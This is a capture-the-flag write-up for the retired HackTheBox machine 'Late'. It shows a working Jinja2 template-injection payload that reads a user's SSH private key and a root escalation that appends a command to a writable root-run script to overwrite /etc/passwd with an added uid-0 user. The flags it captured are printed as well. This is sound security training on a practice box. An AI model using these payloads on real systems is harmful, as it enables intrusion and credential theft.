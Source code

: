 Title:HTB: Late
Date: 08-22-2022 19:00
category:security
tags:security, boot2root, HTB, SSTI, SUID, OCR
meta:security, boot2root, HTB, SSTI, SUID, OCR

<img class="align-left" src="/media/2022.08/late_card.png" alt="Late Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Late](https://www.hackthebox.com/home/machines/profile/463) publish on
April 23, 2022 by
[kavigihan](https://www.hackthebox.com/home/users/profile/389926).
This box is rated as an easy machine. It implies an OCR function, a SSTI and a SUID binary.

<!-- PELICAN_END_SUMMARY -->

# Foothold and user

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are open.

    :::text
    # Nmap 7.92 scan initiated Sun Jun 12 08:22:12 2022 as: nmap -sSV -oN notes.md 10.129.72.242
    Nmap scan report for 10.129.72.242
    Host is up (0.017s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.14.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmp.org/submit/ .
    # Nmap done at Sun Jun 12 08:22:19 2022 -- 1 IP address (1 host up) scanned in 7.13 seconds

Port 80 was a web application containing a link to a subdomain 
`http://images.late.htb/`. This application allowed to perform OCR on images.
We test a few example and realize that we are facing [SSTI](https://portswigger.net/web-security/server-side-template-injection).

We upload an image containing the basic SSTI identification:

![SSTI identification](/media/2022.08/late_01.png)

The application resolved the second operation.

    :::text
    <p>${8*8} aa 49
    </p>

Following PortSwigger graph I uploaded a new image.

![SSTI identification 2](/media/2022.08/late_02.png)

The application resolved `7*'7'` as `7777777`. Therefore the application was using Jinja2.

A [blog post](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) described Jinja injection.

I verified that `popen` is available:

![checking popen](/media/2022.08/late_03.png)

Then by dichotomy I founded the `popen` index.

![popen index](/media/2022.08/late_04.png)

`Popen` was the subprocess with index 249.

    :::text
    <p>[&lt;class &#39;zipfile.ZipFile&#39;&gt;, &lt;class &#39;pkgutil.ImpImporter&#39;&gt;, &lt;class &#39;pkgutil.ImpLoader&#39;&gt;, &lt;class &#39;subprocess.CompletedProcess&#39;&gt;, &lt;class &#39;subprocess.Popen&#39;&gt;]
    </p>

I ran `ls` to proved that I had RCE.

![running ls](/media/2022.08/late_05.png)

    :::text
    <p>(b&#39;main.py\nmisc\n__pycache__\nstatic\ntemplates\nuploads\nwsgi.py\n&#39;, None)
    </p>

I ran `id` to get an idea of which user was running the application. The user `id` was 1000 meaning that this
was probably a standard human user.

    :::text
    <p>(b&#39;uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)\n&#39;, None)

After a few trials, I found a payload that allowed to retrieve `id_rsa` from the user.

    :::text
    {{''.__class__.__mro__[1].__subclasses__()[249](['cat','/home/svc_acc/.ssh/id_rsa'],stdout=-1).communicate()}}

I connected to the box using SSH and grabbed the user flag.

    :::text
    └─$ ssh svc_acc@10.129.72.242 -i id_rsa
    svc_acc@late:~$ id
    uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
    svc_acc@late:~$ cat user.txt
    17295259a78e40790974b3ac7d2d0a8f

# Root

I ran [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and found that there was a user writable file in `/usr/local/sbin`, a folder where binary are run as root.

    :::bash
    #!/bin/bash

    RECIPIENT="root@late.htb"
    SUBJECT="Email from Server Login: SSH Alert"

    BODY="
    A SSH login was detected.

            User:        $PAM_USER
            User IP Host: $PAM_RHOST
            Service:     $PAM_SERVICE
            TTY:         $PAM_TTY
            Date:        `date`
            Server:      `uname -a`
    "

    if [ ${PAM_TYPE} = "open_session" ]; then
            echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
    fi


I copied `/etc/passwd` and added a new line containing a root user (`id=0`) with the password `pass123`:
`toto2:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash`

Then I modified the `/usr/local/sbin/ssh-alert.sh` file to copy the modified `passwd` file in `etc`:
`echo 'cp /home/svc_acc/passwd /etc/passwd' >>/usr/local/sbin/ssh-alert.sh`

Then I connect to ssh with our `svc_acc` user and switch user to `toto2` and grabbed the flag.

    :::text
    svc_acc@late:~$ su toto2
    root@late:/home/svc_acc# id
    uid=0(root) gid=0(root) groups=0(root)
    root@late:/home/svc_acc# cd
    root@late:~# cat root.txt
    365276e9d7ba2bb0c907fe9ee608164a

# Wrapping up

A nice box exploiting SSTI and a SUID binary. The fact that the SSTI was in an image was
fun but tedious as sometime the OCR was not perfect and submitting the same image another
time did not give the same result.

